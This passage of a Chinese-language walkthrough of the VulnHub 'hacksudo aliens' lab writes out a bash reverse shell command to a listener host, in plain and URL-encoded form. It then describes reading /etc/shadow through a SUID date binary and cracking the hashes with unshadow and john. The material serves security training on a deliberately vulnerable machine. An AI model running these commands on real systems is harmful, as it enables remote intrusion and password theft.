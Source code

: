 ![](D:\stu\vulnhub\hacksudo靶场\pic-aliens\24.jpg)

构造`bash`反弹

```shell
bash -c 'bash -i >& /dev/tcp/192.168.1.16/9999 0>&1'
进行url编码后
bash+-c+%27bash+-i+%3e%26+%2fdev%2ftcp%2f192.168.1.16%2f9999+0%3e%261%27%0a
```

首先在`kali`中开启`nc`监听9999端口，然后浏览器执行

![](D:\stu\vulnhub\hacksudo靶场\pic-aliens\25.jpg)





# 提取

使用`find`寻找具有SUID的文件

![](D:\stu\vulnhub\hacksudo靶场\pic-aliens\26.jpg)

刚开始发现有`sudo`，但是当前用户，无法使用，再看有`date`，之前没碰到，查看帮助文档

![](D:\stu\vulnhub\hacksudo靶场\pic-aliens\27.jpg)

可以查看文件一次，并且还是具有`SUID`的。这么看可能不清晰，访问一个网站查看`gtfobins.github.io`

![](D:\stu\vulnhub\hacksudo靶场\pic-aliens\28.jpg)

查看`/etc/shadow`文件

![](D:\stu\vulnhub\hacksudo靶场\pic-aliens\29.jpg)

后面还有`hacksudo`的，太长，就没截图

那么就可以把相关的有密码的复制到`kali`的一个文件中，然后查看`/etc/passwd`，把相关的复制到`kaili`的另一个文件中，然后使用`unshadow`整合到一起，使用`john`进行破解

![](D:\stu\vulnhub\hacksudo靶场\pic-aliens\30.jpg)

这里先爆出，就先登录测试

![](D:\stu\vulnhub\hacksudo靶场\pic-aliens\31.jpg)



寻找具有SUID的文件，虽然有sudo，但是还是无法使用

![](D:\stu\vulnhub\hacksudo靶场\pic-aliens\32.jpg)

查看第一个，发现该文件是可执行文件

![](D:\stu\vulnhub\hacksudo靶场\pic-aliens\33.jpg)
